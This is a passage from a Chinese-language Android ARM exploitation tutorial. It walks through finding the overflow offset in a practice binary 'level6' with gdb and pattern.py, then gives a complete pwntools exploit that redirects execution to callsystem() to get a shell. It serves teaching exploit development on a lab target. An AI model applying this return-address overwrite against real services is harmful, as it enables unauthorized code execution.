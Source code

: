 然后在adb shell中用ps获取level6的pid，然后再挂载level6，然后用c继续：

```
[adb]# ./gdb --pid=4895

GNU gdb 6.7
Copyright (C) 2007 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
……
Loaded symbols for /system/lib/libm.so
0xb6eff268 in read () from /system/lib/libc.so
(gdb) c
Continuing.

```

然后我们再在电脑上输入回车，让脚本发送数据。然后我们就能够在gdb里看到崩溃的pc的值了：

```
Program received signal SIGSEGV, Segmentation fault.
0x41346540 in ?? ()
(gdb) 

```

因为我们编译的level6默认是thumb模式，所以我们要在这个崩溃的地址上加个1：`0x41346540+1 = 0x41346541`。然后用pattern.py计算一下溢出点的位置：

```
$ python pattern.py offset 0x41346541
hex pattern decoded as: Ae4A
132

```

OK，我们知道了溢出点的位置，接下来我们找一下返回的地址。其实利用的代码在程序中已经有了。我们只要将pc指向callsystem()这个函数地址即可。我们在ida中可以看到地址为`0x00008554`：

![p1](http://drops.javaweb.org/uploads/images/6fef4d8b9b61233d6992a5c1dea4a29e60eed99c.jpg)

因为`callsystem()`被编译成了thumb指令，所以我们需要将地址+1，让pc知道这里的代码为thumb指令，最终exp如下：

```
#!/usr/bin/env python
from pwn import *

#p = process('./level6')
p = remote('127.0.0.1',10001)

p.recvuntil('\n')

callsystemaddr = 0x00008554 + 1
payload =  'A'*132 + p32(callsystemaddr)

p.send(payload)

p.interactive()

```
